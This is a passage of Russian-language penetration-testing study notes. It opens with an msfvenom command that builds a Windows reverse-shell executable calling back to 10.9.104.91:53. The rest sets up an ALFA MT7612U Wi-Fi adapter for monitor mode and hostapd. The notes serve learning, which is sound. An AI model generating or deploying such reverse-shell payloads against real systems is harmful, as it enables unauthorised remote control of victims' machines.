 ```
msfvenom -p windows/x64/shell_reverse_tcp --platform win -a x64 LHOST=10.9.104.91 LPORT=53 -f exe -o reverse.exe
```

## Взлом Wi-Fi. 34 модуль

Купил карту [ALFA Network AWUS036ACM](https://market.yandex.ru/product--alfa-network-awus036acm/1881542156?sku=102062826659&cpa=1) с чипсетом MT7612U. Брал за 7100. На момент написания в ямаркете ее нет (пишу это в конце октября, покупал в конце августа), но в других местах есть. 
Повезло, карта заводится на АРМе и Кали ее видит без дополнительной установки драйверов. Без проблем пробрасывается и в UTM, и в Parallels. 

Косяки:
- Не работает индикатор при подключению к Маку, но работает при подключении к Винде. Если хочется включить, описано [тут](https://github.com/morrownr/7612u#known-issues), Known Issue 1
- Драйвер не поддерживает работу на 5ГГц, только 2,4. "Known Issue 4" по ссылке выше. Сама карта умеет 5ГГц, может когда-то исправят

Данные карты:

```
$ lsusb | grep Wireless
Bus 003 Device 002: ID 0e8d:7612 MediaTek Inc. MT7612U 802.11a/b/g/n/ac Wireless Adapter

$ iw dev
phy#0
	Interface wlan0
		ifindex 4
		wdev 0x1
		addr ae:1c:7f:c8:d7:0c
		type managed
		txpower 20.00 dBm
```



<details><summary>Подробные данные карты</summary></details> 

Для работы hostapd, в конфиге hostapd.conf используй строку `driver=nl80211` для использования нужного драйвера. При поднятии второго интерфейса иногда, при определенных условиях, система выдает segmentation fault и встает почти колом, помогает только ребут. Поэтому при использовании hostapd интерфейс в строке должен быть основным, т.е. `interface=wlan0`, а утилиты которые должны работать параллельно, запускать на сабинтерфейсе, типа wlan0mon.

Несколько полезных команд:

```
# Создать сабинтерфейс с именем wlan0mon
sudo iw dev wlan0 interface add wlan0mon type monitor

# Показать данные по Wireless интерфейсам
sudo iw dev

# Минимально необходимый конфиг hostapd.conf для MT7612U чипсета
$ cat hostapd.conf
interface=wlan0
driver=nl80211
```
